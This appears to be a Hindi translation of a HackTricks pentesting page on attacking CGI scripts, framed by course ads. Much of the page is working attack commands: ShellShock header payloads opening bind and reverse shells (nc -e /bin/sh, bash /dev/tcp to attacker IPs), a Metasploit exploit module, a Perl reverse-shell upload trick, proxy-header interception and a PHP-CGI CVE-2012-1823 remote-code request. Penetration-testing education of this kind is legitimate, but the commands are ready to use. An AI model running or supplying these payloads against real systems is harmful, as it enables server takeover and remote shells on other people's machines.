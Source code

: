 {% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**8kSec Academy** के साथ **मोबाइल सुरक्षा** में अपनी विशेषज्ञता बढ़ाएं। हमारे आत्म-गति पाठ्यक्रमों के माध्यम से iOS और Android सुरक्षा में महारत हासिल करें और प्रमाणित हों:

{% embed url="https://academy.8ksec.io/" %}


# जानकारी

**CGI स्क्रिप्ट पर्ल स्क्रिप्ट हैं**, इसलिए, यदि आपने एक सर्वर को समझौता किया है जो _**.cgi**_ स्क्रिप्ट को निष्पादित कर सकता है, तो आप **पर्ल रिवर्स शेल** अपलोड कर सकते हैं \(`/usr/share/webshells/perl/perl-reverse-shell.pl`\), **एक्सटेंशन** को **.pl** से **.cgi** में बदलें, **निष्पादन अनुमतियाँ** दें \(`chmod +x`\) और **वेब ब्राउज़र** से रिवर्स शेल **एक्सेस** करें ताकि इसे निष्पादित किया जा सके।
**CGI कमजोरियों** का परीक्षण करने के लिए `nikto -C all` का उपयोग करने की सिफारिश की जाती है \(और सभी प्लगइन्स\)

# **ShellShock**

**ShellShock** एक **कमजोरी** है जो व्यापक रूप से उपयोग किए जाने वाले **Bash** कमांड-लाइन शेल को प्रभावित करती है जो यूनिक्स-आधारित ऑपरेटिंग सिस्टम में होती है। यह Bash की क्षमता को लक्षित करती है कि वह एप्लिकेशन द्वारा भेजे गए कमांड को चलाए। यह कमजोरी **पर्यावरण चर** के हेरफेर में निहित है, जो गतिशील नामित मान हैं जो यह प्रभावित करते हैं कि कंप्यूटर पर प्रक्रियाएँ कैसे चलती हैं। हमलावर इसको **पर्यावरण चर** में **दुष्ट कोड** संलग्न करके शोषण कर सकते हैं, जो चर प्राप्त करने पर निष्पादित होता है। इससे हमलावरों को संभावित रूप से सिस्टम को समझौता करने की अनुमति मिलती है।

इस कमजोरी का शोषण करते समय **पृष्ठ एक त्रुटि फेंक सकता है**।

आप इस कमजोरी को यह देखकर **पता लगा सकते हैं** कि यह एक **पुरानी Apache संस्करण** और **cgi\_mod** \(cgi फ़ोल्डर के साथ\) का उपयोग कर रहा है या **nikto** का उपयोग करके।

## **परीक्षण**

अधिकांश परीक्षण कुछ को इको करने पर आधारित होते हैं और उम्मीद करते हैं कि वह स्ट्रिंग वेब प्रतिक्रिया में लौटाई जाएगी। यदि आप सोचते हैं कि एक पृष्ठ कमजोर हो सकता है, तो सभी cgi पृष्ठों की खोज करें और उनका परीक्षण करें।

**Nmap**
```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
## **Curl \(प्रतिबिंबित, अंधा और आउट-ऑफ-बैंड\)**
```bash
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```
[**Shellsocker**](https://github.com/liamim/shellshocker)
```bash
python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
```
## शोषण
```bash
#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
```
# **Proxy \(MitM to Web server requests\)**

CGI प्रत्येक HTTP अनुरोध में हेडर के लिए एक वातावरण चर बनाता है। उदाहरण के लिए: "host:web.com" को "HTTP\_HOST"="web.com" के रूप में बनाया जाता है।

चूंकि HTTP\_PROXY चर का उपयोग वेब सर्वर द्वारा किया जा सकता है। एक **हेडर** भेजने का प्रयास करें जिसमें: "**Proxy: &lt;IP\_attacker&gt;:&lt;PORT&gt;**" हो और यदि सर्वर सत्र के दौरान कोई अनुरोध करता है। आप सर्वर द्वारा किए गए प्रत्येक अनुरोध को कैप्चर करने में सक्षम होंगे।

# Old PHP + CGI = RCE \(CVE-2012-1823, CVE-2012-2311\)

बुनियादी रूप से यदि cgi सक्रिय है और php "पुराना" \(&lt;5.3.12 / &lt; 5.4.2\) है तो आप कोड निष्पादित कर सकते हैं।
इस भेद्यता का लाभ उठाने के लिए आपको वेब सर्वर की कुछ PHP फ़ाइल तक पहुंच प्राप्त करनी होगी बिना पैरामीटर भेजे \(विशेष रूप से "=" वर्ण भेजे बिना\)।
फिर, इस भेद्यता का परीक्षण करने के लिए, आप उदाहरण के लिए `/index.php?-s` तक पहुंच सकते हैं \(ध्यान दें `-s`\) और **अनुप्रयोग का स्रोत कोड प्रतिक्रिया में दिखाई देगा**।

फिर, **RCE** प्राप्त करने के लिए आप यह विशेष क्वेरी भेज सकते हैं: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` और **PHP कोड** जो **अनुरोध के शरीर में** निष्पादित किया जाना है।
उदाहरण:**
```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```
**कमजोरी और संभावित शोषण के बारे में अधिक जानकारी:** [**https://www.zero-day.cz/database/337/**](https://www.zero-day.cz/database/337/)**,** [**cve-2012-1823**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1823)**,** [**cve-2012-2311**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-2311)**,** [**CTF लेखन उदाहरण**](https://github.com/W3rni0/HacktivityCon_CTF_2020#gi-joe)**.**

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**मोबाइल सुरक्षा** में अपनी विशेषज्ञता को 8kSec अकादमी के साथ गहरा करें। हमारे आत्म-गति पाठ्यक्रमों के माध्यम से iOS और Android सुरक्षा में महारत हासिल करें और प्रमाणित हों:

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें। 

</details>
{% endhint %}

